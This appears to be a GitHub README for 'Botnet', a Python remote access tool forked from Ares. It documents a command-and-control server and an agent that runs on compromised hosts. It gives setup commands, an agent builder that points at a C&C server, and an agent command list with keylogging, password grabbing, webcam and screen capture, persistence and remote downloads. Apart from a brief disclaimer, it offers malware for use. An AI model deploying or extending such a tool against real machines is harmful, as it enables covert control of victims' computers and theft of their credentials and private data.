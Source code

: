 # Botnet
Botnet is a Python3 Remote Access Tool.

__Warning: Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Botnet is, just like Ares, made of two programs:

- A Command And Control server which is a web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the C&C

## Based on Github project Ares: https://github.com/sweetsoftware/Ares
Differences?
1. Updated from python 2 -> python 3
2. Extra features like screencaptures, webcam capture, keylogger, password grabber 

## Setup

__Note: I suggest creating a virtual environment__

Install the python requirements: 

```
pip install -r requirements.txt
```

Initialize the database:

```
cd Server
./server initdb
```

## Server
Run the (debug) server:

```
./server.py runserver -h 0.0.0.0 -p 8080 --threaded
```

The server must now be accessible on http://localhost:8080

## Agent
Run the agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build an agent to a standalone library and run it:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
```

To see a list of supported options run

```
./builder.py -h
```

## Commands

```
cd </path/to/directory>
upload <localfile>
download <remote_url> <destination>
clean
persist
exit
zip <archive_name> <folder>
python <python_file> or python <python_command>
help
keylogger
screenshot
camshot
passwords
* and other cmd commands *
```



# TODO provide further documentation
